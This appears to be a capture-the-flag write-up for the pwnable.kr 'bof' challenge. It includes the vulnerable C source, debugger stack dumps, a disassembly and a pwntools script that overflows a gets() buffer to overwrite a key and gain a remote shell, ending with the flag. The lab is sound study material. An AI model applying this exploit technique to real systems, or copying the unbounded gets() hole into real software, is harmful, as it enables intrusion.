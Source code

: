 # bof
The third challenge from pwnable.kr

## Description
Nana told me that buffer overflow is one of the most common software vulnerability.
Is that true?

Download : http://pwnable.kr/bin/bof
Download : http://pwnable.kr/bin/bof.c

Running at : nc pwnable.kr 9000

## Solution

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

Immediately you can notice that this is a buffer overflow due to the use of insecure gets(), which doesn't specify a buffer limit.

We need to overwrite the variable `key` so that it equals `0xcafebabe` in order to get `/bin/sh` access.

`key` is a parameter in this function and it's set to `0xdeadbeef`, so let's open up pwndbg to find that on the stack and figure out the length of our padding.

`pwndbg ./bof`

```
pwndbg> b gets
Breakpoint 1 at 0x4c0
pwndbg> r
Starting program: /home/ctf/challenges/bof/bof
overflow me :

Breakpoint 1, 0xf75c5e60 in gets () from /lib/i386-linux-gnu/libc.so.6
```

```
pwndbg> finish
Run till exit from #0  0xf75c5e60 in gets () from /lib/i386-linux-gnu/libc.so.6
aaaaaaaaaaaaaaaa
```

```
pwndbg> x/100x $esp
0xffaf6040:	0xffaf605c	0x00000000	0x000000c2	0xf75f7d56
0xffaf6050:	0xffffffff	0xffaf607e	0xf756dc34	0x61616161
0xffaf6060:	0x61616161	0x61616161	0x61616161	0x56585400
0xffaf6070:	0xffaf788f	0x0000002f	0x56586ff4	0x5799de00
0xffaf6080:	0x565856b0	0x56585530	0xffaf60a8	0x5658569f
0xffaf6090:	0xdeadbeef	0xf7743000	0x565856b9	0xf770e000
```

We can see by examining, in hex representation, that our target is 52 bytes away from the start of our input, a = 0x61

Let's pad 52 bytes then add 0xcafebabe.

```python
from pwn import *

conn = remote('pwnable.kr', 9000)

p = 'a'*52
p += p32(0xcafebabe)

conn.sendline(p)

conn.interactive()
```

# Solution Revisions

Upon dissembling bof and inspecting function `func`, we can more precisely pad our overflow.

```Disassembly
0000062c <func>:
 62c:	55                   	push   %ebp
 62d:	89 e5                	mov    %esp,%ebp
 62f:	83 ec 48             	sub    $0x48,%esp
 632:	65 a1 14 00 00 00    	mov    %gs:0x14,%eax
 638:	89 45 f4             	mov    %eax,-0xc(%ebp)
 63b:	31 c0                	xor    %eax,%eax
 63d:	c7 04 24 8c 07 00 00 	movl   $0x78c,(%esp)
 644:	e8 fc ff ff ff       	call   645 <func+0x19>
 649:	8d 45 d4             	lea    -0x2c(%ebp),%eax
 64c:	89 04 24             	mov    %eax,(%esp)
 64f:	e8 fc ff ff ff       	call   650 <func+0x24>
 654:	81 7d 08 be ba fe ca 	cmpl   $0xcafebabe,0x8(%ebp)
 65b:	75 0e                	jne    66b <func+0x3f>
 65d:	c7 04 24 9b 07 00 00 	movl   $0x79b,(%esp)
 664:	e8 fc ff ff ff       	call   665 <func+0x39>
 669:	eb 0c                	jmp    677 <func+0x4b>
 66b:	c7 04 24 a3 07 00 00 	movl   $0x7a3,(%esp)
 672:	e8 fc ff ff ff       	call   673 <func+0x47>
 677:	8b 45 f4             	mov    -0xc(%ebp),%eax
 67a:	65 33 05 14 00 00 00 	xor    %gs:0x14,%eax
 681:	74 05                	je     688 <func+0x5c>
 683:	e8 fc ff ff ff       	call   684 <func+0x58>
 688:	c9                   	leave  
 689:	c3                   	ret   
```

A buffer of size 0x2c is created with the `lea    -0x2c(%ebp),%eax` instruction.

Adding another 8 bytes to overflow $ebp and saved $eip would give us the correct size of our buffer.


### Capturing the Flag

```
(ctftools)ctf@b1b157128929:~/challenges/bof$ python exploit.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
log2
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```
